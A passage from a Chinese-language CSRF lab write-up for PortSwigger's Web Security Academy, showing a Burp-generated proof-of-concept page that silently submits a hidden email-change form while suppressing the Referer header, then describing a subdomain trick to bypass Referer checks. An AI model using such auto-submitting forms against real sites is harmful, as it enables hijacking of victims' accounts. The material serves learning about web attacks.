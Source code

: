 ```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <header>
   <meta name="referrer" content="no-referrer">
 </header>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a9f006e0360e6008406314b009300af.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei123&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

[![](assets/1705890866-df7d9c7c91c35f59b9c9cdc863a68968.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111817-3984cf94-b5b0-1.png)

随后完成解题，而这里最关键的就是一个通过header标签来移除referer，这个也算是见识到了

[![](assets/1705890866-96881a11ae35343b29e2d830d259b5a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111828-3fab5280-b5b0-1.png)

### 绕过方式2

#### 场景介绍

部分应用程序使用一种可以绕过的简单方式验证Referer标头，例如:如果应用程序验证Referer中的域以预期值开头，则攻击者可以将其作为自己域的子域

```plain
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

同样如果应用程序只是验证Referer包含其自己的域名，那么攻击者可以将所需的值放在URL的其他位置：
